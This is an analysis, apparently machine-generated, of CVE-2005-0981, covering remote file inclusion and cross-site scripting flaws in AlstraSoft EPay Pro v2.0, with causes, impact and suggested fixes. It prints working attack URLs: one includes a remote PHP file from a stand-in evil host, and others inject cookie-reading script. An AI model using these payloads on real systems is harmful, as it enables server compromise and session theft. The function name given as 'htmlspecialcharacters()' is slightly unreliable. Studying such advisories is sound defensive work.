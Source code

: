 Based on the provided content, here's an analysis of the vulnerabilities described in the context of CVE-2005-0981:

**Summary:**
The provided content from marc.info describes vulnerabilities in AlstraSoft EPay Pro v2.0. It details a file inclusion vulnerability and multiple cross-site scripting (XSS) vulnerabilities.

**Root Cause of Vulnerabilities:**
*   **File Inclusion:** The `index.php` script in the `epal` directory is vulnerable to file inclusion due to the insecure use of the `view` parameter. This allows an attacker to include arbitrary files, potentially from remote locations.
*   **Cross-Site Scripting (XSS):** The application does not properly sanitize user-supplied input in the `order_num` and `payment` parameters, allowing attackers to inject malicious JavaScript code.

**Weaknesses/Vulnerabilities Present:**
*   **Unrestricted File Inclusion:** The `view` parameter in `index.php` is not sanitized or validated, enabling remote file inclusion (RFI) by providing an external URL.
*   **Lack of Input Sanitization:** The application does not sanitize user-supplied data in the `order_num` and `payment` parameters, making it susceptible to XSS attacks.

**Impact of Exploitation:**
*   **File Inclusion:** Successful exploitation could lead to arbitrary command execution on the server by including a malicious PHP file. This would give an attacker significant control over the target system.
*   **XSS:** Successful exploitation of XSS could allow an attacker to execute malicious scripts in the context of a user's browser, potentially leading to cookie theft, session hijacking, or other malicious activities.

**Attack Vectors:**
*   **File Inclusion:**
    *   The attacker crafts a URL that includes the `view` parameter followed by a URL to a malicious script.
        `http://localhost/epal/index.php?view=http://www.evilserver.com/evil.php`
*   **XSS:**
    *   The attacker crafts a URL that includes the `order_num` and/or `payment` parameters containing malicious JavaScript code.
        `http://localhost/epal/?order_num=crap&payment=>"><script>alert(document.cookie)</script>&send=first&send=regular&send=priority&send=express`
        `http://localhost/epal/?order_num=crap&payment=crap&send=first&send=regular&send=priority&send=>'%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E`

**Required Attacker Capabilities/Position:**
*   **File Inclusion:**
    *   The attacker must be able to send HTTP requests to the vulnerable server
    *   The attacker needs access to a server where they can host a malicious PHP file.
*  **XSS:**
    *   The attacker must be able to send HTTP requests to the vulnerable server.
    *   The attacker needs to induce a victim to click on the malicious link.

**Additional Notes:**
* The advisory suggests using `htmlspecialcharacters()` for input sanitization and implementing a base directory for file includes as potential fixes.
* The file inclusion vulnerability can lead to arbitrary command execution, which is a critical security issue.

Based on the above analysis, the content is relevant to CVE-2005-0981 as it provides detailed information about the file inclusion and XSS vulnerabilities.